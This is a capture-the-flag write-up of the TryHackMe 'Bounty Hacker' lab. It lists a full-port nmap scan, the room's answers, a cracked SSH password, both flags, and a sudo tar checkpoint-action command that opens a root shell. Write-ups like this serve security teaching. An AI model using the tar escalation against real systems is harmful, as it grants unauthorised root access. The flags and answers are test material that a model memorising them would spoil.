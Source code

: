 # Bounty Hacker

## Task 1 Living up to the title.

### Deploy the machine.

{% hint style="success" %}
No answer needed
{% endhint %}

### Find open ports on the machine

```text
nmap -sC -sV -T5 -p1-65535 10.10.40.31
```

![](../.gitbook/assets/image%20%28313%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### Who wrote the task list?

![](../.gitbook/assets/image%20%28307%29.png)

![](../.gitbook/assets/image%20%28299%29.png)

{% hint style="success" %}
lin
{% endhint %}

### What service can you bruteforce with the text file found?

{% hint style="success" %}
ssh
{% endhint %}

### What is the users password?

![](../.gitbook/assets/image%20%28298%29.png)

{% hint style="success" %}
RedDr4gonSynd1cat3
{% endhint %}

### user.txt

![](../.gitbook/assets/image%20%28305%29.png)

{% hint style="success" %}
THM{CR1M3\_SyNd1C4T3}
{% endhint %}

### root.txt

```text
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](../.gitbook/assets/image%20%28300%29.png)

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

{% hint style="success" %}
THM{80UN7Y\_h4cK3r}
{% endhint %}

